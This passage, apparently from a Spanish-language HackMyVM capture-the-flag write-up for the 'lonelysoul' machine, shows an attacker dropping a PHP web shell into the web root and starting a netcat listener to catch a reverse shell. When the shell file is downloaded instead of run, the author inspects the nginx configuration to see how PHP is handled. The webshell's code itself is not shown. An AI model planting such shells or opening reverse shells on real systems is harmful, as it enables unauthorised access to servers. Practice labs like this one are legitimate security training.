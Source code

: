 Vemos que tiene todos los permisos activados, por lo que efectivamente si podremos depositar un archivo en la pagina web.

```shell
cd /var/www/html
chmod +x webshell.php
nano webshell.php

#Dentro del nano

#Metemos el contenido del Webshell.php
```

Lo guardamos y vamos a irnos a dicho archivo desde la `web` pero antes nos pondremos a la escucha.

```shell
nc -lvnp <PORT>
```

Una vez estando a la escucha nos meteremos en la `web` de la siguiente forma:

```
URL = http://<IP>/webshell.php
```

Pero veremos que nos lo descarga, por lo que no esta interpretando correctamente el `PHP` con la `IP`, vamos a ver la configuracion del servidor web a ver si interpreta `PHP` o no.

```shell
cat /etc/nginx/sites-available/default
```

Info:

```
............................<RESTO DE CODIGO>......................................
# Virtual Host configuration for example.com
#
# You can move that to a different file under sites-available/ and symlink that
# to sites-enabled/ to enable it.
#
server {
        listen 80;
        listen [::]:80;
#
        server_name lonelysoul.hmv;
#
        root /var/www/html;
        index index.html;
#
        location / {
                try_files $uri $uri/ =404;
        }

 # pass PHP scripts to FastCGI server
        #
               location ~ \.php$ {
               include snippets/fastcgi-php.conf;
        #
        #       # With php-fpm (or other unix sockets):
               fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        #       # With php-cgi (or other tcp sockets):
        #       fastcgi_pass 127.0.0.1:9000;
        }
}
```
